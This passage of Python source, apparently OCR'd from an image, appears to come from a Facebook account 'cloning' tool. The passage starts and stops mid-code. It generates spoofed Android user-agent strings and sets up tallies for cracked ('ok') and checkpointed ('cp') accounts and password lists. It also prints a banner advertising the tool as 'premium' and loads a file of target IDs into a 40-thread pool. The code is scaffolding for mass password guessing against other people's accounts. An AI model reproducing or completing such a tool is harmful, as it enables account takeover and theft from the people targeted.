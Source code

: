     aa='Mozilla/5.0 (Linux; Android 5.0; SAMSUNG SM-N900P Build/LRX21V;'
    b=random.choice(['7.0','8.1.0','9','10','11','12'])
    c=random.choice(['Linux; Android 5.0; SAMSUNG SM-N900P Build/LRX21V'])
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko)'
    h=random.randrange(80,103)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='SamsungBrowser/2.1 Chrome/34.0.1847.76 Mobile Safari/E7FBAF'
    uaku2=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
   
#------------[ INDICATION ]---------------#
id,id2,loop,ok,cp,akun,oprek,method,lisensiku,taplikasi,tokenku,uid,lisensikuni= [],[],0,0,0,[],[],[],[],[],[],[],[]
cokbrut=[]
pwpluss,pwnya=[],[]
logo=("""\033[1;37m
   .d8888. d888888b d88888b  .d8b.  d888888b 
   88'  YP   `88'   88'     d8' `8b `~~88~~' 
   `8bo.      88    88ooo   88ooo88    88    
     `Y8b.    88    88~~~   88~~~88    88    
   db   8D   .88.   88      88   88    88    
   `8888Y' Y888888P YP      YP   YP    YP    
   
\033[1;97m═════════════════════════════════════════════
[\033[1;92m✔\033[1;97m]OWNER          \033[1;91m: \033[1;97mMASUDUR RAHMAN SIFAT
[\033[1;92m✔\033[1;97m]TOOL           \033[1;91m: \033[1;97mCLONEING
[\033[1;92m✔\033[1;97m]STATUS         \033[1;91m: \033[1;97mPREMIUM 
[\033[1;92m✔\033[1;97m]NETWORK        \033[1;31m: \033[1;97m3G\033[97;1m,4G,5G
[\033[1;92m✔\033[1;97m]VERSION        \033[1;91m: \033[38;5;208m1.0.0
\033[1;97m═════════════════════════════════════════════ """)
def linex():
        print('\x1b[91m══════════════════════════════════════════════')
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.000009)
def clear():
	os.system('clear')
	jalan (logo)

def File():
	clear()
	print("")
	file = input('[\033[1;92m•\033[1;97m]Put File Location\033[1;37m: ')
	try:
		fo = open(file,'r').read().splitlines()
	except FileNotFoundError:
		print("")
		exit('[\033[1;92m•\033[1;97m]\x1b[31mFile Location Not Found ')
	linex()
	with ThreadPool(max_workers=40) as pool:
		total_ids = str(len(fo))
		clear()
		